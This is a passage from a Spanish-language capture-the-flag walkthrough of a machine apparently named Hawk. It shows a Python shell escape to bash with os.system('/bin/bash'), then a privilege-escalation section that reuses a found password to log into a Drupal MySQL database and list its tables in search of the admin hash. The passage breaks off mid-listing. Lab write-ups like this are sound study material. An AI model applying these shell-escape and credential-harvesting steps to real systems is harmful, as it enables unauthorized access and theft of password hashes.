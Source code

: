 ```bash
Last login: Sun Jul  1 13:46:16 2018 from dead:beef:2::1004
Python 3.6.5 (default, Apr  1 2018, 05:46:30)
[GCC 7.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> os.system("/bin/bash")
daniel@hawk:~$
```

## Escalada de privilegios

- Como estamos ante un Drupal podemos ver mas usuarios y sus hashes conectándonos al servicio de la base de datos la misma password para Daniel funciona.

```bash
daniel@hawk:/var/www/html/sites/default$ mysql -u drupal -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 73
Server version: 5.7.22-0ubuntu18.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

- Vemos el hash del admin.

```bash
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| drupal             |
| mysql              |
| performance_schema |
| sys                |
+--------------------+
5 rows in set (0.00 sec)

mysql> use drupal;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+-----------------------------+
| Tables_in_drupal            |
+-----------------------------+
| actions                     |
| authmap                     |
| batch                       |
| block                       |
| block_custom                |
| block_node_type             |
| block_role                  |
| blocked_ips                 |
| cache                       |
| cache_block                 |
```